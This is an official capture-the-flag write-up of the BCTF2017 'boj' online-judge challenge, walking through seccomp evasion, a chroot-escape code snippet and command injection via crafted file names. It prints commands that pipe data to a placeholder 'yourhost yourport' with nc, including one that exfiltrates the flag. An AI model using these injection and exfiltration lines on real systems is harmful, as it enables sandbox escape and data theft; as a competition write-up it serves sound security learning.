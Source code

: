 ```yaml
---
layout: post
title: BCTF2017 boj official writeup 
categories: [Sandbox, PWN, Writeup]
description: BCTF2017 boj official writeup by Atum
keywords: BCTF, PWN, Writeup
---
```



## boj official writeup 

blue-lotus onlinejudge judge system, as you know, the code you submit will be run on remote server.
[challenge environment](https://github.com/A7um/bctf2017/tree/master/boj)

### step 1 escape seccomp

1. try to connect back to your host by
	
	```
	system("echo hello|nc yourhost yourport") 
	result: failed, remote server filtered syscall execve
	socket(yourhost:yourport)->send("hello") 
	result: wow, you get hello on yourhost:yourport
	```
	
2. use opendir->readdir->socket->send to list remote dir 

	```
	scf.so
	14xxxxxxxx
	```
	
3. dump scf.so by open->read->socket->send. by reversing scf.so, you find that scf.so applied a seccomp syscall filter by hooking \_\_libc\_start\_main. 

	```
	#define VALIDATE_ARCHITECTURE \
	BPF_STMT(BPF_LD+BPF_W+BPF_ABS, arch_nr), \
	BPF_JUMP(BPF_JMP+BPF_JEQ+BPF_K, ARCH_NR, 1, 0), \
	BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL)
	
	#define EXAMINE_SYSCALL \
	BPF_STMT(BPF_LD+BPF_W+BPF_ABS, syscall_nr)
	
	#define BLOCK_SYSCALL(name) \
	BPF_JUMP(BPF_JMP+BPF_JEQ+BPF_K, __NR_##name, 0, 1), \
	BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL)
	
	/* Validate architecture. */
	VALIDATE_ARCHITECTURE,
	/* Grab the system call number. */
	EXAMINE_SYSCALL,
	BLOCK_SYSCALL(execve),
	BLOCK_SYSCALL(fork),
	BLOCK_SYSCALL(ptrace),
	BLOCK_SYSCALL(clone),
	BLOCK_SYSCALL(chroot),
	BLOCK_SYSCALL(pivot_root),
	BLOCK_SYSCALL(process_vm_readv),
	BLOCK_SYSCALL(process_vm_writev),
	ALLOW_PROCESS,
	```
	
obviously, this filter can be evaded by x32abi.

### step 2 escape chroot

1. run some api to gather infomation such as:
	
	```
	getuid,ret 0 
	getpid,ret 3
	getcwd,ret /root/
	
	system("ls everywhere")
	cannot find flag and directory is not complete. you realize that you are in a chroot environment. 
	```
	
2. escape chroot by

	```
	mkdir("tmpdir", 0755);
    dir_fd = open(".", O_RDONLY);
    if(chroot("tmpdir")){
        perror("chroot");
    }
    fchdir(dir_fd);
    close(dir_fd);  
    for(x = 0; x < 1000; x++) chdir("..");
    chroot("."); 
	```
	
3. list dir outside, you find some interesting files

	```
	/flag
	/start.h
	/home/ctf/setup.h
	/home/ctf/oj/*
	```
	
4. try to read /flag, you get permission deny. run system("ls -al /flag"), you get
	
	```
	-r--r----- 1 nobody nogroup    46 Apr 14 03:21 flag
	```
	
5. read /start.sh and /home/ctf/setup.sh, you find some binaries of boj: 
	
	```
	/usr/lib/cgi-bin/onlinejudge.cgi
	/usr/lib/cgi-bin/statequery.cgi
	/home/ctf/oj/sandbox/sandbox
	/home/ctf/oj/sandbox/scf.so
	/home/ctf/oj/sandbox/cr
	```
	
6. dump these binaries

### step 3 escape usernamespace

1. reverse sandbox, you find you are in a user namepsace. the root you own is not a real root. uid=0 inside namespace is mapped to uid=1000 outside.
2. reverse cr, you find there is a command injection bug. 

	```
	int run(char* binname){
	....
		snprintf(runcmd,310,"%s %s",sandboxpath,binpath);
	....
		if(pid==0){
	        drop(1000,1000);
	        if (signal(SIGALRM, (__sighandler_t)timeouthandler) < 0){
	            perror("signal");
	        }
	        alarm(2);
	        snprintf(state,300,"submit id: %s</br>state: %s</br>result: %s</br>",submitid,"Runing","N/A");
	        fd=open(statepath,O_WRONLY|O_CREAT);
	        write(fd,state,strlen(state));
	        close(fd);
	        chdir(sandboxdirname);
	        system(runcmd);
	....
	
	```
	
3. cr is running outside the namespace, you can inject command to get which user&group the flag really belong to

	```
		touch '/home/ctf/oj/bin/ad.c;ls -al flag|nc yourhost yourport';
		-r--r----- 1 root www-data    46 Apr 14 03:21 flag
	```
	
4. www-data is uid=33 && gid=33(read /etc/passwd). by reversing cr, you find: cr set it uid&&gid to 33 before compile. and by the way, these is a command injection error in compile function.

	```
	int compile(char *srcname){
	....
	 	snprintf(compilecmd,310,"gcc -o %s %s",binpath,srcpath);
	....
		if(pid==0)
		    {
		        drop(33,33);
		        if (signal(SIGALRM, (__sighandler_t)timeouthandler) < 0){
		            perror("signal");
		        }
		        alarm(1);
		        snprintf(state,300,"submit id: %s</br>state: %s</br>result: %s</br>",submitid,"Compiling","N/A");
		        fd=open(statepath,O_WRONLY|O_CREAT);
		        write(fd,state,strlen(state));
		        close(fd);
		        system(compilecmd);//file name command injuection
	....
	```
	
5. read flag by submiting system("touch '/home/ctf/oj/src/hahaha.c;cat flag|nc yourhost yourport;'"); 
6. you get flag on your own host, done :) 

### something else

Chanllenge boj is designed to be a whitebox challenge mainly, the only blackbox step is try to connect back and get scf.so. after you get scf.so, you need to do something like: list dir->dump binaries->reversing->exploit->list dir->dump binaries->reversing->exploit...

I saw some teams tried and guessed blindly during the game. as we know, such guessing and trying is boring. I feel so sorry about that, maybe some infomation in this challenge mislead you guys to do a purely blackbox attack.
